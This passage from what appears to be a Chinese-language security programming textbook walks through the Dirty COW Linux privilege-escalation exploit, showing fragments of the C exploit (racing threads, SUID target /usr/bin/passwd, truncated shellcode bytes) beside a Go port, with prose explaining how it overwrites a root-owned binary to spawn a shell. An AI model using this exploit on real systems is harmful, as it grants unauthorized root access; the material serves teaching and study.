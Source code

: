 ```c
    printf("Racing, this may take a while..\n");

    pthread_create(&pth1, NULL, &madviseThread, suid_binary);
    pthread_create(&pth2, NULL, &procselfmemThread, payload);
    pthread_create(&pth3, NULL, &waitForWrite, NULL);

    pthread_join(pth3, NULL);

    return 0; 
}
```

清单9-5 C语言编写的Dirty COW特权升级漏洞

与其解释C代码逻辑的细节，不如先从整体上看一下，然后将其分块，逐行与Go版本进行比较。该漏洞利用可执行文件和可链接格式（ELF）定义了一些恶意的Shell代码，该代码可生成Linux Shell。通过创建多个线程来作为特权用户执行代码，这些线程调用各种系统函数来将我们的shellcode写入内存位置。最终，shellcode通过覆盖碰巧已设置了SUID位并属于root用户的二进制可执行文件的内容来利用此漏洞。在本例中，二进制文件是 _/usr/bin/passwd_，通常非root用户不能覆盖该文件。但是，由于 _Dirty COW_ 漏洞，可以在保留文件权限的同时将任意内容写入文件，从而实现了特权升级。

现在将C代码分解为易于理解的部分，并将每个部分与Go中的等价部分进行比较。请注意，Go代码专门尝试实现C代码的逐行复制。清单9-6是在C语言函数之外定义或初始化的全局变量，而清单9-7是在Go中定义或初始化的全局变量。

```c
void *map; 
int f;
int stop = 0;
struct stat st;
char *name;
pthread_t pth1,pth2,pth3;

// change if no permissions to read 
char suid_binary[] = "/usr/bin/passwd";

unsigned char sc[] = {
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 
    --snip--
    0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05
};
unsigned int sc_len = 177;
```

清单 9-6: C中的初始化

```go
var mapp uintptr
var signals = make(chan bool, 2) 
const SuidBinary = "/usr/bin/passwd"

var sc = []byte{
    0x7f, 0x45, 0x4c, 0x46, 0x02, 0x01, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 
    --snip--
    0x68, 0x00, 0x56, 0x57, 0x48, 0x89, 0xe6, 0x0f, 0x05,
}
```
